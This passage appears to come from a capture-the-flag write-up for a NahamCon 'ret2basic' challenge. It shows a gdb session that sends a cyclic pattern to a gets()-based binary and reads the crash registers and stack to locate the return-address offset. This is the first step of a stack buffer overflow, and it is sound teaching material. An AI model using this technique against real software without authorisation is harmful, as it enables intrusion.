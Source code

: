 Now we'll send this to the binary:

```shell
gef➤  r
Starting program: /root/Documents/nahamcon/binary/ret2basic
Can you overflow this?: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdcf0 ("aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
RBX: 0x0
RCX: 0x7ffff7f9e980 --> 0xfbad208b
RDX: 0x0
RSI: 0x7ffff7f9ea03 --> 0xfa1680000000000a
RDI: 0x7ffff7fa1680 --> 0x0
RBP: 0x616161616161616f ('oaaaaaaa')
RSP: 0x7fffffffdd68 ("paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
RIP: 0x40133b (<vuln+44>:       ret)
R8 : 0x7fffffffdcf0 ("aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
R9 : 0x0
R10: 0xfffffffffffff24a
R11: 0x246
R12: 0x401100 (<_start>:        endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401334 <vuln+37>:  call   0x4010b0 <gets@plt>
   0x401339 <vuln+42>:  nop
   0x40133a <vuln+43>:  leave
=> 0x40133b <vuln+44>:  ret
   0x40133c <main>:     push   rbp
   0x40133d <main+1>:   mov    rbp,rsp
   0x401340 <main+4>:   mov    eax,0x0
   0x401345 <main+9>:   call   0x40130f <vuln>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd68 ("paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
0008| 0x7fffffffdd70 ("qaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
0016| 0x7fffffffdd78 ("raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
0024| 0x7fffffffdd80 ("saaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
0032| 0x7fffffffdd88 ("taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
0040| 0x7fffffffdd90 ("uaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
0048| 0x7fffffffdd98 ("vaaaaaaawaaaaaaaxaaaaaaayaaaaaaa")
0056| 0x7fffffffdda0 ("waaaaaaaxaaaaaaayaaaaaaa")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040133b in vuln ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdcf0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$rbx   : 0x0
$rcx   : 0x00007ffff7f9e980  →  0x00000000fbad208b
$rdx   : 0x0
```
